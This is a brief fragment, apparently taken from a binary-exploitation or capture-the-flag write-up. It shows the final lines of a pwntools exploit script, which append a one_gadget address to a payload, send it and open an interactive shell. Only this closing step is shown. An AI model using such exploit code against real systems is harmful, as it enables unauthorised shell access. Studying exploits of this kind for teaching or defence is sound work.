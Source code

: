````python
payload += p64(one_gadget_address)
r.sendline(payload)

# we should now have a shell
r.interactive()
````
